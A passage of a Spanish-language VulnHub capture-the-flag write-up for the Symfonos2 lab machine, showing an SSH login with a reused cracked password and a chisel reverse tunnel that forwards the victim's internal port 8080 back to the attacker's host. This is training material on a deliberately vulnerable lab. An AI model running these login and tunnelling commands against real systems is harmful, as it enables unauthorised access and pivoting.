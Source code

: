 
Las contraseñas se reutilizan.


```bash
➜  content sshpass -p 'sergioteamo' ssh aeolus@192.168.56.14 
Linux symfonos2 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 31 00:53:08 2023 from 192.168.56.1
aeolus@symfonos2:~$ whoami
aeolus
```

Al momento de ingresar en el sistema, listamos los puertos y vemos lo siguiente.

![](/assets/images/vulnhub-writeup-symfonos2/symfonos2puertos.png)

 Procedemos a descargarnos la herramienta "chisel" y trasladarla a la máquina víctima, para tener el puerto 8080 en nuestra máquina.
```bash
#wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz

#client 
./chisel client 192.168.56.1:8001 R:8080:127.0.0.1:8080

# Server
chisel server -p 8001 -reverse 
```
